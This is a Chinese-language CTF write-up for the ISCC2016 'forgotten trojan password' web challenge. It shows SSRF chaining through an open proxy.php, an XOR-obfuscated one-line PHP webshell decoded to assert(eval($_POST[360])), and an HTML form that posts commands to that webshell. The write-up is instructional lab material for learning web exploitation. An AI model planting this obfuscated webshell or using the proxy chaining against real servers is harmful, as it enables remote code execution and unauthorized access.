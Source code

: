 ## 描述

小明入侵了一台web服务器并上传了一句话木马，但是，管理员修补了漏洞，更改了权限。更重要的是：他忘记了木马的密码！你能帮助他夺回控制权限吗？

关卡入口：http://web.jarvisoj.com:32782/

题目来源:ISCC2016

Hint1: 本题已修复，没做出来的请重新开始做题。

## 题解

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en">
<head>
	<meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
	<title>ISCC 2016</title>
	<div class="container">
		<img src="proxy.php?url=http://dn.jarvisoj.com/static/images/proxy.jpg" alt="">
		
		<p><a href="admin">管理员登录</a></p>
	</div>
</head>
<body>
	
</body>
</html>
```

图片我保存到了 [assets/proxy.jpg](./assets/proxy.jpg)，010 Editor 看了下没发现啥奇怪的东西和代码。headers 也没啥奇怪的东西。先挂着御剑扫一下吧。

再来看一下 `/admin`，直接 403 Forbidden，弹出了个 `you are not admin!`。

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /admin/
on this server.</p>
<script>alert('you are not admin!')</script>
<!--<script>alert('admin ip is 202.5.19.128')</script>-->
</body></html>
```

发现有个 `202.5.19.128` 的 ip，`nmap` 扫了一下，发现了

```html
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
53/tcp  open  domain
80/tcp  open  http
111/tcp open  rpcbind
443/tcp open  https
```

先看看 80 口吧，也是一个 403 Forbidden，但是给出了一些多余信息

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="zh-cn" xml:lang="zh-cn">
<head>
<title>禁止访问！</title>
<link rev="made" href="mailto:you@example.com" />
<style type="text/css"><!--/*--><![CDATA[/*><!--*/ 
    body { color: #000000; background-color: #FFFFFF; }
    a:link { color: #0000CC; }
    p, address {margin-left: 3em;}
    span {font-size: smaller;}
/*]]>*/--></style>
</head>

<body>
<h1>禁止访问！</h1>
<p>
    您无权访问所请求的目录。
    这是由于没有主页或该目录不允许被读取导致的。
</p>
<p>
如果您认为这是一个服务器错误，请联系<a href="mailto:you@example.com">网站管理员</a>。

</p>

<h2>Error 403</h2>
<address>
  <a href="/">202.5.19.128</a><br />
  <span>Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/7.3.0 mod_perl/2.0.8-dev Perl/v5.16.3</span>
</address>
</body>
</html>
```

暂时没发现啥问题。试试 `ssh`，好把不懂密码。

之前的御剑扫完了，发现之前漏看了一个 `proxy.php`，尝试访问一下是不是可以注入。

http://web.jarvisoj.com:32782/proxy.php?url=http://www.baidu.com

发现这玩意并不是给你个跳转（status code 是 200），而是直接服务器上打开网页然后再传给我们，这样是不是就有权限访问刚刚我们没权限访问的东西了？试试。

http://web.jarvisoj.com:32782/proxy.php?url=http://web.jarvisoj.com:32782/admin

没用。

http://web.jarvisoj.com:32782/proxy.php?url=202.5.19.128

居然 302 跳转到了

http://web.jarvisoj.com:32782/index.php?url=http://8080av.com

（这个域名让人浮想联翩啊

但是这个域名似乎是无效的，ping 都出不来 ip，所以应该是个假链接。

用御剑扫一下 202.5.19.128 看看能发现啥，啥也没有。

尝试用那个 proxy 来访问这个

http://web.jarvisoj.com:32782/proxy.php?url=202.5.19.128/proxy.php

woc 居然得到了

```html
<br />
<b>Notice</b>:  Undefined offset: 2 in <b>/opt/lampp/htdocs/proxy.php</b> on line <b>53</b><br />
invalid request
```

而不是禁止访问！接着尝试

http://web.jarvisoj.com:32782/proxy.php?url=202.5.19.128/proxy.php?url=http://web.jarvisoj.com:32782/admin

依然没权限

折腾了一下，真的不会，去查题解吧。

艹，之前多加一个斜杠

http://web.jarvisoj.com:32782/proxy.php?url=202.5.19.128/proxy.php?url=http://web.jarvisoj.com:32782/admin/

就能得到

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en">
<head>
	<meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
	<title>ISCC 2016</title>
	<h1>YOU'RE CLOOSING!</h1>
</head>
<body>
	
</body>
</html>
```

的提示。然后居然要加个 robots.txt 有惊喜。。。。。

http://web.jarvisoj.com:32782/proxy.php?url=202.5.19.128/proxy.php?url=http://web.jarvisoj.com:32782/admin/robots.txt

得到了

```
User-agent: *
Disallow:trojan.php
Disallow:trojan.php.txt
```

接着来试试

http://web.jarvisoj.com:32782/proxy.php?url=202.5.19.128/proxy.php?url=http://web.jarvisoj.com:32782/admin/trojan.php

没用，应该是要加参数才行，试试那个 txt 的看看源码，得到

```php
<?php ${("#"^"|").("#"^"|")}=("!"^"`").("( "^"{").("("^"[").("~"^";").("|"^".").("*"^"~");${("#"^"|").("#"^"|")}(("-"^"H"). ("]"^"+"). ("["^":"). (","^"@"). ("}"^"U"). ("e"^"A"). ("("^"w").("j"^":"). ("i"^"&"). ("#"^"p"). (">"^"j"). ("!"^"z"). ("T"^"g"). ("e"^"S"). ("_"^"o"). ("?"^"b"). ("]"^"t"));?>
```

本机跑一下，发现其实是

```php
assert(eval($_POST[360]))
```

可以搞事情了，本地打开以下 html

```html
<form action="http://web.jarvisoj.com:32782/proxy.php?url=202.5.19.128/proxy.php?url=http://web.jarvisoj.com:32782/admin/trojan.php" method="POST" enctype="multipart/form-data">
    <input type="text" name="360" />
    <input type="submit" />
</form>
```

然后提交一个 `print(phpinfo())`

便得到了 flag

## 答案

CTF{fl4g_1s_my_c40d40_1s_n0t_y0urs}
